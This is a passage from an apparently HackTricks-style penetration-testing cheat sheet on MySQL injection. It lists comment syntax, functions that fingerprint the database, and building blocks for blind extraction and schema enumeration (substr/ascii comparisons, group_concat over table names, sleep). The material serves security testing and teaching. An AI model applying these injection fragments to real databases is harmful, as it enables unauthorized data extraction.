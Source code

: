 # MySQL injection

{{#include ../../../banners/hacktricks-training.md}}



## Comments

```sql
-- MYSQL Comment
# MYSQL Comment
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MySQL version 3.23.02
```

## Interesting Functions

### Confirm Mysql:

```
concat('a','b')
database()
version()
user()
system_user()
@@version
@@datadir
rand()
floor(2.9)
length(1)
count(1)
```

### Useful functions

```sql
SELECT hex(database())
SELECT conv(hex(database()),16,10) # Hexadecimal -> Decimal
SELECT DECODE(ENCODE('cleartext', 'PWD'), 'PWD')# Encode() & decpde() returns only numbers
SELECT uncompress(compress(database())) #Compress & uncompress() returns only numbers
SELECT replace(database(),"r","R")
SELECT substr(database(),1,1)='r'
SELECT substring(database(),1,1)=0x72
SELECT ascii(substring(database(),1,1))=114
SELECT database()=char(114,101,120,116,101,115,116,101,114)
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
strcmp(),mid(),,ldap(),rdap(),left(),rigth(),instr(),sleep()
```
